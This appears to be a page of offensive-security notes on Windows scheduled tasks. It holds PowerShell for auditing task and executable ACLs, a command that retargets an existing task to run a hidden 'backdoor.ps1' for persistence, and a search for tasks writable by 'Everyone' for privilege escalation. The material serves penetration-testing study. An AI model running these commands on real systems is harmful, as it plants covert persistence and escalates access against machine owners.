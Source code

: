 ```powershell
        "`n" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8 # Add a newline for readability

        # Add ACL entries for matching
        $aclEntries = $acl -split "`n"
        $currentACL = $aclEntries | Where-Object { $_ -match ".*Allow.*" }
        
        # Check for matches in the ACL entries
        $matchingEntries = $currentACL | Where-Object { $_ -match ($patterns -join "|") }

        # If any matching ACL entry is found, write the task and matching ACLs to the Step 2 output file
        if ($matchingEntries.Count -gt 0) {
            "Executable: $executable" | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8
            $matchingEntries | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8
            "`n" | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8 # Add a newline for readability
        }
    }
    catch {
        # If an error occurs (e.g., if the executable path doesn't exist), log it to the output file
        "Failed to retrieve ACL for executable: $executable" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
        "`n" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
    }
}
```

#### Modifying an Existing Scheduled Task

- Modify a Scheduled Task: You can modify an existing scheduled task's action, trigger, or other properties. In this case, the task action is modified to run a hidden PowerShell script.
	```powershell
	Set-ScheduledTask -TaskName "MyPersistentTask" -Action (New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoProfile -WindowStyle Hidden -Command C:\Temp\backdoor.ps1")
	```

#### Delete a Scheduled Task

- Unregister a Scheduled Task: Remove the task from the system.
    ```powershell
    Unregister-ScheduledTask -TaskName "MyPersistentTask" -Confirm:$false
    ```

#### Exploiting Writable Scheduled Tasks

1. Identify Writable Scheduled Tasks:  
   Finds scheduled tasks where non-administrative users, like "Everyone", have writable permissions, making them vulnerable.
	```powershell
	Get-ScheduledTask | ForEach-Object { 
		$task = $_.TaskName
		Get-Acl -Path "C:\Windows\System32\Tasks\$task" | Where-Object { $_.AccessToString -like "*Everyone Allow FullControl*" } 
	} | Out-File "C:\Path\To\Outfile.txt"
	```
